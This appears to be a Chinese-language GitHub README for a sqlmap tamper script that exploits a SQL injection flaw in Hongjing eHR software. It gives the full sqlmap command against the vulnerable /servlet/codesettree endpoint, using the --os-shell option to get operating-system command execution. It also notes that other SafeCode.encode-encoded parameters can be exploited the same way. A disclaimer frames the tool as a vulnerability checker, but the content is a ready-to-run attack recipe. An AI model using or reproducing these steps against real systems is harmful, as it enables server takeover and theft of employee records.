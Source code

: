 # ehr_SafeCodeEncode_tamper
宏景ehr sql注入的tamper脚本（sqlmap使用）

# 使用方法

将该脚本ehr_SafeCodeEncode_tamper.py放在sqlmap/tamper/目录下

使用命令开始注入
```
python3 sqlmap.py -u "http://x.x.x.x/servlet/codesettree?categories=1&codesetid=1&flag=c&parentid=-1&status=1"  -p categories --dbms="Microsoft SQL Server" --tamper ehr_SafeCodeEncode_tamper  --os-shell --level 3
```

注：其他注入点如果也通过SafeCode.encode方法编码的话，也可以利用该脚本进行注入。

SafeCode.py只实现了编码和解码，请自行调用。


# 免责声明

1. 使用本网络安全工具存在一定的风险，请用户在使用前自行评估和承担相关风险。
2. 本网络安全工具仅供用户排查网站是否存在漏洞，不保证其完全有效或适用于所有情况。
3. 开发者或提供者对于用户使用本网络安全工具所导致的任何直接或间接损失或损害不承担责任。
4. 用户在使用本网络安全工具时应遵守适用的法律法规和合规要求，开发者或提供者不对用户的违法行为承担责任。
5. 本网络安全工具的功能、性能和适用性存在限制，开发者或提供者不对其做出任何明示或默示的担保。
6. 用户在使用本网络安全工具时应遵守知识产权和保密性等相关法律和条款。
7. 本免责声明适用于使用本网络安全工具的所有用户。

请在使用本网络安全工具之前详细阅读并理解以上免责声明，如果不同意其中的任何条款，请立即停止使用本工具。

